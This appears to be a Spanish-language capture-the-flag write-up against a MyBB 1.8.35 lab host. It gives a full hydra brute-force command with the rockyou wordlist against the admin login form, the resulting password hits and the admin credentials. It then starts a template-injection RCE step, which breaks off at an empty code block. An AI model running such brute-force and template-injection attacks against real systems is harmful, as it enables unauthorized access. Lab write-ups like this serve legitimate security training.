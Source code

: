 ### Credenciales Encontradas
despues de ver en su buscador por usuario detectamos dos usuarios:
```bash
test
admin
```

realizaremos un ataque de fuerza bruta para el administrador:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:The username and password combination you entered is invalid."
```

Tenemos varias respuestas, para probar:
```bash
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 12345
[80][http-post-form] host: panel.mybb.dl   login: admin   password: abc123
[80][http-post-form] host: panel.mybb.dl   login: admin   password: rockyou
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 12345678
[80][http-post-form] host: panel.mybb.dl   login: admin   password: princess
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 123456
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 123456789
[80][http-post-form] host: panel.mybb.dl   login: admin   password: password
[80][http-post-form] host: panel.mybb.dl   login: admin   password: iloveyou
[80][http-post-form] host: panel.mybb.dl   login: admin   password: 1234567
[80][http-post-form] host: panel.mybb.dl   login: admin   password: nicole
[80][http-post-form] host: panel.mybb.dl   login: admin   password: daniel
[80][http-post-form] host: panel.mybb.dl   login: admin   password: lovely
[80][http-post-form] host: panel.mybb.dl   login: admin   password: jessica
[80][http-post-form] host: panel.mybb.dl   login: admin   password: babygirl
[80][http-post-form] host: panel.mybb.dl   login: admin   password: monkey
```

Nos loguemas en el pandel de administracion:
```bash
username: admin
password: babygirl
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Desde el panel de administracion nos indica que esta usando la version: **( 1.8.35 )** e Investigando en la web tenemos esta info:

- Versiones anteriores como 1.8.32 y 1.8.33 tenían vulnerabilidades críticas:
    - **RCE (Ejecución Remota de Código)** en 1.8.32 mediante cadena de ataques LFI (Local File Inclusion) que requería credenciales de administrador9.
    - **XSS (Cross-Site Scripting)** en 1.8.33 a través de la gestión de temas8.

### Ejecucion del Ataque
Para explotar su vulnerabilidad **RCE** en **( Templates > defual templates > Who's Online Templates )**
En este template inyectamos el siguiente fragmente:
```bash
```